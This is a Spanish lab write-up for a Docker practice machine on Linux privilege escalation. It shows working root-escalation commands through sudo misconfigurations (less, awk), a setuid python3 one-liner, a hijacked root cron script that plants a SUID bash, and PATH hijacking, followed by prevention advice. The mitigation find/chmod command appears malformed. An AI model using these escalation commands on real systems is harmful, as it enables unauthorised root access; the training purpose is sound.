 = Envidia
:author: Manuel L. Quero
:revdate: 2025-
:toc: left
:doctype: book

<<<

== Escalada de privilegios

La escalada de privilegios es el uso de una falla de software, una vulnerabilidad, un defecto de diseño, una falla de configuración o un control de acceso en un sistema operativo o aplicación para obtener acceso no autorizado a recursos que normalmente están restringidos para una aplicación o usuario.

Como resultado, la aplicación o el usuario obtienen más privilegios de los que fueron diseñados por el desarrollador o administrador del sistema, lo que permite a los atacantes acceder a información confidencial, instalar malware y lanzar otros ciberataques.

=== Tipos de escalada

. *Escalada de privilegios vertical* -> El atacante comienza con una cuenta de bajo nivel (por ejemplo, un usuario estándar) y busca elevar sus privilegios para obtener acceso administrativo (como root en Linux o administrador en Windows). El objetivos comunes es acceder a datos sensibles, instalar malware, ejecutar comandos como administrador.

. *Escalada de privilegios horizontal* -> El atacante ya posee una cuenta privilegiada, pero intenta acceder a recursos o funciones que están fuera del alcance original de ese usuario. En aplicaciones web implica acceder a cuentas de otros usuarios, como acceder al panel de administrador desde una cuenta normal.

=== Vectores de ataque

Nosostros nos vamos a centrar en la escalada de privilegios vertical.

==== 1. Archivo sudoers

El archivo Sudoers es el archivo en el que se almacenan los usuarios y grupos que tienen privilegios root para ejecutar algunas o todas las órdenes como root o otro usuario, este archivo se encuentra en /etc. La sintaxis es la siguiente para el permiso root por defecto *"root ALL = (ALL: ALL) ALL"*, aunque también hay una opción TAG disponible que es opcional.

image::assets/Sintaxis.png[Sintaxis sudoers]

Por lo que en este archivo se puede dar privilegios root a los comandos binarios, poniendo en la configuración el binario en concreto *"NOPASSWD : /usr/bin/find"* este tipo de autorización lleva a una elevación de privilegios para acceder a root, además la etiqueta NOPASSWD significa que no se pedirá ninguna contraseña para la autenticación al ejecutar el comando sudo -l.

==== 2. Binario SUID

El bit SUID (Set User ID) se utiliza en archivos ejecutables para otorgar al usuario que los ejecute los privilegios del propietario del archivo (generalmente root). Esto es necesario en algunos binarios, como /usr/bin/passwd, para realizar acciones que requieren permisos elevados.

Sin embargo, si el binario con el bit SUID activado es vulnerable, un atacante puede explotarlo para ejecutar comandos como root. Este tipo de vulnerabilidad puede ser detectado fácilmente usando herramientas como find para localizar archivos con el bit SUID activado.

==== 3. Cron ejecutando script editable

Primeramente debemos entender crontab, hay dos tipos:

* *Crontab del sistema* -> Se encuentra en */etc/crontab*, principalmente sirve para programar tareas a nivel global (para todos los usuarios). Además, puede contener scripts que se ejecutan con privilegios elevados.

* *Crontab de usuario* -> Se crea con el comando *crontab -e*, por lo que las tareas solo afectan al usuario que las crea y se almacenan en /var/spool/cron/crontabs, pero los usuarios estándar no pueden ver ni listar estos archivos directamente. También se conocen como “cron jobs ocultos”.

Por lo que un usuario malintencionado podría modificar un script que se ejecuta automáticamente como root desde /etc/crontab si tiene permisos de escritura sobre ese archivo o script, logrando así ejecutar código malicioso con privilegios elevados.

Se puede ver el contenido en *cat /etc/crontab*. Esto es útil para identificar scripts vulnerables que podrían ser aprovechados para una escalada de privilegios.

==== 4. Capacidades en binario

Antes de las capabilities, los procesos en Linux solo se diferenciaban entre privilegiados (root) y no privilegiados (usuarios normales). Con las capabilities, los privilegios de root se dividen en pequeños permisos, permitiendo que los procesos tengan solo los permisos necesarios para realizar tareas específicas, mejorando así la seguridad.

La diferencia entre SUID y capabilities es:

* *SUID (Set User ID)* -> Permite a un usuario ejecutar un archivo con los permisos de su propietario (generalmente root). Es fácil de detectar y puede ser peligroso si el binario es vulnerable.

* *Capabilities* -> Asignan permisos más específicos a los procesos. Por ejemplo, en lugar de dar acceso total a root, se puede permitir que un binario escuche en un puerto sin ser root, utilizando capacidades como *CAP_NET_BIND_SERVICE*.

Los valores de las capabilites son:

* *P (Permitted)* -> Marca la capability como habilitada. Es decir, ahora esta podrá tener el valor de Effective o Inheritable.

* *E (Effective)* -> Aplica la capability al proceso definido.

* *I (Inheritable)* -> La pueden heredar los subprocesos.

Las capabilities permiten dividir los privilegios de root en partes más pequeñas, otorgando solo los permisos necesarios. Esto mejora la seguridad, ya que los procesos reciben solo lo que necesitan para ejecutar tareas específicas. Pero si una capability se asigna a un binario de manera inapropiada, puede permitir a los usuarios ejecutar acciones que deberían estar restringidas.

image::assets/Capabilities.png[Capabilities]

==== 5. PATH Hijacking

El PATH Hijacking se produce cuando un script que se ejecuta con privilegios elevados (como root) llama a comandos sin especificar una ruta absoluta. Si un atacante puede manipular el entorno PATH, podría colocar un ejecutable malicioso en una ruta que aparezca antes en el orden de búsqueda del PATH. De esta manera, el sistema ejecutaría el archivo malicioso en lugar del ejecutable legítimo, lo que permitiría al atacante ejecutar código malicioso con privilegios elevados.

==== Otros vectores

*NFS* permite compartir directorios y archivos entre sistemas a través de una red. Sin embargo, una configuración incorrecta puede introducir vulnerabilidades críticas que faciliten la escalada de privilegios.

La opción *no_root_squash* en la configuración de NFS permite que el usuario root en el cliente mantenga privilegios de root en el servidor al acceder a los recursos compartidos. Esto puede ser explotado por un atacante para crear archivos con permisos SUID en el servidor, facilitando la obtención de una shell con privilegios elevados. Por defecto, NFS utiliza root_squash para mapear al usuario root del cliente a un usuario anónimo sin privilegios, como nfsnobody, mitigando este riesgo.

<<<

== Solucionar la máquina

En esta guía nos centraremos en la escalada de privilegios vertical, aprendiendo cómo elevar los privilegios desde un usuario estándar en distintos contextos. En esta máquina, simularemos que ya hemos obtenido las credenciales de un usuario. Es importante mencionar que existen muchas técnicas para escalar privilegios, pero aquí veremos las más comunes.

Además, a lo largo de esta máquina veremos vulnerabilidades de binarios asi que recomiendo este repositorio: https://gtfobins.github.io/[GTFOBins]

Debemos tener en cuenta que hay tres servicios activos:

* *Apache* → Muestra archivos del servidor FTP: (http://dante.172.35.0.2.nip.io)

* *FTP* → Permite subir archivos autenticándonos como usuario: (ftpuser:ftp123)

* *SSH* → Proporciona acceso al sistema para gestión remota: (user:password)

Dado que ya disponemos de las credenciales, nos conectamos al contenedor SSH.

[source,bash]
----
$ ssh user@172.35.0.4 -p 22
----

Si nos sale un error ponemos el comando que nos indica:

image::assets/SSHerror.png[SSHerror]

=== Despliegue de la máquina

Como requisito, necesitaremos tener instalado docker y docker-compose.

Podemos ver como instalar docker para varias distribuciones de linux -> https://docs.docker.com/engine/install/[Instalar Docker]

Podemos ver como instalar docker-compose para varias distribuciones de linux -> https://docs.docker.com/compose/install/linux/[Instalar Docker-Compose]

Necesitaremos descargar primeramente el auto_deploy.sh, el cual se muestra como una pirámide en la página. Después deberemos meter en un directorio tanto el auto_deploy.sh como el archivo de envidia.tar, y ejecutar los siguientes comandos.

(Si el auto_deploy no tiene permisos se los damos mediante *chmod +x*). 

[source,bash]
----
$ sudo bash auto_deploy.sh envidia.tar
----

=== 1. Archivo sudoers

==== Reconocimiento

Una vez dentro como usuario, deberemos verificar si tenemos privilegios sobre algún comando específico, para ello usamos el siguiente comando:

[source,bash]
----
$ sudo -l
----

* *-l* -> Lista los comandos específicos a los que el usuario tiene privilegios.

image::assets/sudoers/sudoL.png[comando sudo -l]

==== Escalada

Cómo podemos ver tenemos permisos en los binarios de less y awk. No necesitamos conocer cómo funciona el comando, sino cómo vulnerarlo, por lo que podemos buscarlo en GTFOBins,:

===== less

Buscnado en GTFOBins, en la sección de *Sudo* encontraremos cómo vulnerarlo -> https://gtfobins.github.io/gtfobins/less/[GTFOBins less]

Entonces, como este comando usa root, lo que necesitaremos es crear una shell dentro de él, entonces los comandos que ejecute esa shell serán de administrador y habremos escalado:

[source,bash]
----
$ sudo less /etc/profile
$ !/bin/sh
----

image::assets/sudoers/less1.png[less]
image::assets/sudoers/less2.png[escalar con less]

===== awk 

Hacemos el mismo proceso anterior, buscando en GTFOBins -> https://gtfobins.github.io/gtfobins/awk/[GTFOBins awk]

[source,bash]
----
$ sudo awk 'BEGIN {system("/bin/sh")}'
----

image::assets/sudoers/awk.png[awk]

De esta forma podemos escalar de privilegios si tenemos permisos de root en algunos comandos.

=== 2. Binario SUID

==== Reconocimiento

Primeramente vamos a buscar los binarios SUID que hay en el sistema:

[source,bash]
----
$ find / -perm -4000 -type f 2>/dev/null
----

image::assets/suid/reconfind.png[reconocimeineto]

Podemos ver que hay una ruta que es distinta a todas las otras, podemos ver su código para entender mejor que ocurre si lo ejecutamos.

image::assets/suid/codigo.png[ver codigo]

==== Escalada

Es un código escrito en python3 que inicia una shell, cómo tiene el bit SUID, abrerá dicha shell como root. Por lo que nos disponemos a ejecutarlo:

image::assets/suid/root.png[escalar root]

Y cómo podemos ver somos root, esto es muy útil conocerlo, ya que si un servicio con privilegios de root le diese el bit SUID a un archivo, este se ejecutaría con permisos de root, lo cual lo vamos a ver en el siguiente vector.

=== 3. Cron ejecutando script editable

==== Reconocimiento

Para este caso, deberemos comprobar primeramente qué se está ejecutando con crontab, de esta forma podemos ver si hay algún archivo vulnerable. Por lo que ejecutamos el siguiente comando para verlo:

[source,bash]
----
$ cat /etc/crontab
----

image::assets/cronjob/cronjob.png[cronjob]

En este caso, no aparece ningún archivo que se esté ejecutando, por lo que miramos en otras rutas:

[source,bash]
----
$ ls -l /etc/cron*
----

image::assets/cronjob/cronlist.png[lista cron]

Podemos ver que hay uno que se ha ejecutado recientemente, y podemos leerlo, posiblemente tenga la ruta del script que ejecute:

image::assets/cronjob/horacron.png[hora cron]

El contenido nos muestra que cada minuto ejecuta ese script y lo almacena en un log, por lo que podemos ver los logs:

image::assets/cronjob/horalogs.png[logs]

Por lo que este script da la hora cada minuto, entonces vamos a ver sus permisos y si podemos editarlo:

[source,bash]
----
$ ls -la /usr/local/bin/hora.sh
----

image::assets/cronjob/hora1.png[hora]

==== Escalada

Cómo tiene permisos de escritura para otros, podemos editarlo y sobrescribir en el archivo. Asi que vamos a ejecutar una shell como root creando en /tmp el archivo rootbash:

[source,bash]
----
$ echo '#!/bin/bash' > /usr/local/bin/hora.sh 
$ echo 'cp /bin/bash /tmp/rootbash' >> /usr/local/bin/hora.sh    
$ echo 'chown root:root /tmp/rootbash' >> /usr/local/bin/hora.sh    
$ echo 'chmod +s /tmp/rootbash' >> /usr/local/bin/hora.sh 
----

Este conjunto de comandos sobrescribe el script /usr/local/bin/hora.sh que será ejecutado automáticamente por cron con privilegios de root. El script copia el binario de bash a /tmp/rootbash, cambia su propietario a root y le aplica el bit SUID, lo que permite que cualquier usuario que lo ejecute obtenga una shell con privilegios de root, cómo hemos visto antes.

image::assets/cronjob/horaeditar.png[editar archivo]

Una vez hecho esto, esperamos a que cronjob lo ejecute como root:

image::assets/cronjob/horaroot.png[escalada root]

De esta forma hemos visto como encontrar ejecutables vulnerables con cronjob, aunque hay herramientas que pueden facilitarnos el trabajo como:

* https://github.com/peass-ng/PEASS-ng/[LinPEAS]
* https://github.com/DominicBreuker/pspy[pspy]

Hay muchas formas de vulnerar cronjob mediante otros vectores, por lo que recomiendo mirar -> https://juggernaut-sec.com/cron-jobs-lpe/[Escalada con Cronjob].

=== 4. Capacidades en binario

==== Reconocimiento

Deberemos conocer que paquetes tiene instalados el sistema, ya que puede tener lenguajes cómo python que nos pueden ayudar a escalar, por lo que buscamos entre todos hasta que encontremos alguno que nos interese:

[source,bash]
----
$ dpkg -l
----

image::assets/capabilities/dpkg.png[dpkg]

Cómo tiene python podemos hacer un sleep con este para ver el número de proceso es y ver sus capabilities:

[source,bash]
----
$ python3 -c 'import time; time.sleep(500)'
----

image::assets/capabilities/psaux.png[psaux]

Podemos ver que su PID es el 1022, para encontrar las capabilities podemos verlo en /proc, donde habrá varios números los cuales son los IDs de los procesos:

image::assets/capabilities/pid.png[pid]

Para ver que capabilities tiene ese proceso ponemos el siguiente comando:

[source,bash]
----
$ cat /proc/(PID)/status | grep Cap
----

image::assets/capabilities/cap.png[capabilities]

Estos nos aparecerán en hexadecimal, para entenderlo podemos usar *capsh*, el cual podemos instalar en nuestro sistema y decodificar cada hexadecimal. En este caso solo tenemos tres números, pero antes de esto debemos entender las lineas:

[source,bash]
----
CapInh -> Capabilities Inherentes (Inheritable)
CapPrm -> Capabilities Permitidas (Permitted)
CapEff -> Capabilities Efectivas (Effective)
CapBnd -> Límite de Bound capabilities
CapAmb -> Ambient capabilities
----

En cuanto a los números tenemos:

image::assets/capabilities/numeros.png[numeros hex]

El que nos interesa es *CAP_SETUID* que aparece en *CapPrm* y *CapEff*, esto significa que permite a un proceso cambiar su UID y, por lo tanto, escalar privilegios. Normalmente, solo el usuario root puede hacer esto, pero si un proceso tiene CAP_SETUID, puede cambiar a cualquier otro usuario, incluido root.

==== Escalada

Por lo que si nos vamos a GTFOBins y en la parte de Capabilities -> https://gtfobins.github.io/gtfobins/python/#capabilities[GTFOBins python].

[source,bash]
----
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
----

image::assets/capabilities/root.png[escalada root]

Ajustando un poco el comando a python3 podremos escalar como root.

=== 5. PATH Hijacking

==== Reconocimiento:

Primeramente podemos ver nuestro /home si hay algún script que utilice algún comando normal, como ls, head, etc. En nuestro caso tenemos uno que se llama top10.py, si lo inspeccionamos muestra los 10 primeros usuarios y tiene permisos de root ya que tiene el bit SUID:

image::assets/path/ejecucion.png[ejecucion top10]

image::assets/path/Top10.png[Top10]

Cómo ejecuta head como root, debe de obtener su función de $PATH:

image::assets/path/path.png[echo $path]

==== Escalada

Por lo que nosotros vamos a cambiar el path para que primero mire donde estamos y crearemos un script que nos de una shell como root.

image::assets/path/cambiarpath.png[cambiar path]

image::assets/path/head.png[crear head]

Una vez hecho ejecutamos el programa:

image::assets/path/root.png[escalar root]

==== Aclaración

Cómo hemos visto en este último, el código del programa estaba en C, si hubiese estado en Python o Bash, no hubiese funcionado el PATH hijacking. Esto es porque el bit SUID solo funciona con binarios compilados (como los hechos en C) porque el sistema los ejecuta directamente y respeta el privilegio del propietario (por ejemplo, root). En cambio, los scripts como Bash o Python son interpretados, y el sistema lanza el intérprete (no el script) sin aplicar el SUID, por seguridad. Así se evita que scripts fácilmente modificables obtengan privilegios elevados.

<<<

== ¿Cómo prevenir?

=== 1. Archivo sudoers

* *Revisar permisos* -> Utilizar *sudo -l* para listar los comandos que un usuario puede ejecutar con sudo. De esta forma nos aseguramos de que solo se permitan los comandos necesarios.

* *Evitar NOPASSWD innecesario* -> No otorgar la opción *NOPASSWD* a menos que sea absolutamente necesario, ya que permite ejecutar comandos sin autenticación adicional.

* *Especificar rutas completas* -> En el archivo sudoers es importante definir las rutas completas de los comandos permitidos para evitar que se ejecuten versiones maliciosas ubicadas en otras rutas.

* *Uso de visudo* -> Para editar el archivo *sudoers* se utiliza visudo debido a que la sintaxis incorrecta puede dejarlo con un sistema roto donde es imposible obtener privilegios elevados.

=== 2. Binario SUID

* *Eliminar permisos SUID y SGID innecesarios:*

[source,bash]
----
$ find / -perm -4000 -o -perm -2000 -type f -exec chmod u-s,g-s {}
----

* *Revisar periódicamente archivos con permisos elevados:*

[source,bash]
----
$ find / -perm -4000 -o -perm -2000 -type f 2>/dev/null
----

* *Usar herramientas* -> Implementar herramientas de monitoreo como AuditD y SELinux.

* *Aplicar el principio de privilegio mínimo* -> Evitar que usuarios no administradores tengan acceso a binarios sensibles.

* *Habilitar autenticación multifactor y segmentación de red para minimizar impacto en caso de explotación.*

=== 3. Cronjob

* *Revisar cronjobs* -> Auditar las tareas programadas en /etc/crontab, /etc/cron.d/, y los crontabs de usuarios para identificar posibles riesgos.

* *Restringir permisos de scripts* -> Tenemos que verificar que los scripts ejecutados por cronjobs no sean modificables por usuarios sin privilegios.

* *Evitar ejecutar scripts en directorios temporales* -> No se recomiendan tareas que ejecuten scripts ubicados en directorios como /tmp o /var/tmp.

* *Especificar rutas absolutas* -> En los cronjobs, es importante utilizar rutas absolutas para los comandos y scripts ejecutados.

=== 4. Capabilities

* *Enumerar capabilities asignadas:*

[source,bash]
----
$ getcap -r / 2>/dev/null
----

* *Revocar capabilities innecesarias* -> Podemos usar *setcap -r <archivo>* para eliminar capabilities de binarios que no las requieran.

* *Evitar asignar capabilities peligrosas* -> Por ejemplo, *cap_setuid* o *cap_dac_read_search* pueden ser riesgosas si se asignan a binarios accesibles por usuarios sin privilegios.

* *Implementar políticas de seguridad* -> Se recomienda configurar mecanismos como *AppArmor* o *SELinux* para restringir el uso de capabilities.

=== 5. PATH Hijacking

* *Usar rutas absolutas* -> En scripts y binarios, se debe especificar la ruta completa de los comandos, por ejemplo, /usr/bin/head en lugar de head.

* *Validar y restringir el $PATH* -> Nos debemos asegurar de que el $PATH no incluya directorios escribibles por usuarios sin privilegios, como . o /tmp.

* *Configurar secure_path en sudoers* -> Es importante definir un $PATH seguro para comandos ejecutados con sudo.

* *Revisar scripts con privilegios* -> Podemos auditar scripts que se ejecutan con privilegios elevados para asegurarte de que no sean susceptibles a path hijacking.

=== Otros vectores

Un caso no explorado es el de NFS, aquí veremos cómo mitigarlo:

* *Evitar no_root_squash* -> Nos debemos asegurar de que la opción *no_root_squash* no esté habilitada en el archivo */etc/exports*. Esta opción permite que el usuario root en el cliente NFS tenga privilegios de root en el servidor, lo cual es peligroso.

* *Utilizar root_squash* -> Esta opción mapea las solicitudes del usuario root del cliente a un usuario sin privilegios en el servidor, como *nobody*, reduciendo el riesgo de escalada de privilegios.

* *Montar con opciones seguras* -> En el cliente, debemos montar los sistemas de archivos NFS con las opciones *nosuid* y *nodev* para evitar la ejecución de binarios con el bit SUID y el uso de dispositivos especiales.

* *Restringir el acceso* -> Limitar el acceso a las exportaciones NFS especificando direcciones IP o rangos de red específicos en el archivo /etc/exports, evitando el uso de comodines como *.

* *Auditoría regular* -> Debemos revisar periódicamente las configuraciones de NFS y los permisos de los archivos compartidos para detectar posibles vulnerabilidades.

----
"Hackear un sistema requiere conocer sus reglas mejor que las personas que lo crearon o lo están ejecutando, y explotar toda la distancia vulnerable entre cómo esas personas habían pretendido que funcionara el sistema y cómo realmente funciona, o podría funcionar. Al capitalizar estos usos no intencionales, los hackers no están rompiendo las reglas tanto como desacreditarlas."

- Edward Snowden
----